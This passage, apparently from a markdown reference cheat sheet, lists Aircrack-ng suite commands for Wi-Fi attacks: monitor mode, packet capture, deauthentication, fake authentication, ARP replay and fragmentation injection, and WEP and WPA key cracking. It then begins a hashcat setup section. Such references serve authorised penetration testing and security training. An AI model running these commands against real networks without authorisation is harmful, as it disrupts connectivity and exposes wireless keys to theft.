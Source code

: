 ```bash
# Purpose: Wireless interface management and monitor mode
sudo airmon-ng check kill          # Kill interfering processes
sudo airmon-ng start wlan0         # Start monitor mode
sudo airmon-ng stop wlan0mon       # Stop monitor mode

# List compatible interfaces
airmon-ng

# Check for interfering processes
airmon-ng check
```

##### airodump-ng

```bash
# Purpose: Wireless packet capture and analysis
sudo airodump-ng wlan0mon                    # Basic scan
sudo airodump-ng -c 6 wlan0mon              # Specific channel
sudo airodump-ng --encrypt WEP wlan0mon     # Filter by encryption
sudo airodump-ng -w capture wlan0mon        # Save to file

# Advanced filtering
sudo airodump-ng --bssid [MAC] -c 6 -w target wlan0mon
```

##### aireplay-ng

```bash
# Purpose: Packet injection for various attacks
sudo aireplay-ng -0 10 -a [AP_MAC] wlan0mon              # Deauth attack
sudo aireplay-ng -1 0 -a [AP_MAC] wlan0mon               # Fake auth
sudo aireplay-ng -3 -b [AP_MAC] wlan0mon                 # ARP replay
sudo aireplay-ng -4 -b [AP_MAC] wlan0mon                 # KoreK chopchop
sudo aireplay-ng -5 -b [AP_MAC] wlan0mon                 # Fragmentation
```

##### aircrack-ng

```bash
# Purpose: Password/key recovery
aircrack-ng capture-01.cap                               # WEP cracking
aircrack-ng -w wordlist.txt capture-01.cap              # WPA dictionary
aircrack-ng -l output.txt capture-01.cap                # Save results

# Advanced options
aircrack-ng -K capture-01.cap                           # KoreK attack
aircrack-ng -P capture-01.cap                           # PTW attack
```

### Hashcat (GPU Acceleration)

#### Installation and Setup

```bash
# Install hashcat
sudo apt install hashcat

# Check GPU support
hashcat -I

# Install OpenCL/CUDA drivers if needed
sudo apt install ocl-icd-opencl-dev nvidia-opencl-dev
```
